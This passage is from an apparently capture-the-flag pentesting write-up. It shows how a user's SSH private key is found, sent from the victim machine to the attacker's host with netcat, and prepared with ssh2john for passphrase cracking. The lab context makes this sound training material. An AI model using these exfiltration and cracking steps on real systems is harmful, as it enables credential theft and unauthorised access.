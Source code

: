 Interesting! We can also read his own RSA public and private key pairs. So we found out our vector for privilege escalation.

<br/>

# Task 8: What is the name of the other user you found (all lower case)?

`kay`.

<br/>

# Task 9: If you have found another user, what can you do with this information?

Okay guys! We are about to finish this privilege escalation task, we now have SSH credentials and keys for another user, so what should we do with this SSH stuff? As we all know the famous quote **_"Google is your friend"_**, and to be honest as a pentester, Google is more than your friend. Therefore, after searching for a technique on how we could benefit from those SSH keys, we found a good blog post, and its steps are as follows:

**1. Get the private key on your local machine**

To do so, we are gonna use `netcat` and set a listener on our local machine and connect back from the victim machine to send the file.

_Set the netcat listener on our machine:_

```console
$ nc -nlp 4040 > id_rsa
```

_Connect back from the victim machine:_

```console
jan@basic2:/home/kay/.ssh$ nc [Local_Machine_IP] 4040 < id_rsa
```
</br>

After getting the id_rsa private key of user kay when we try to connect to the victim machine as user kay, we see that the private key is protected with a passphrase. So to use it, we first need to crack its passphrase.

**2. Install SSH2John on the local machine**

> SSH2John is a utility to convert the key-file into a txt-format that would be suitable for JTR to crack and it's part of John The Ripper suite.

```console
$ wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
```

**3. Crack the private key on the local machine**

So now we are gonna use **SSH2John** to get the suitable format for JTR to understand. After that, we are gonna run John The Ripper to crack the passphrase.

```console
$ python ssh2john.py id_rsa > id_rsa.hash
```
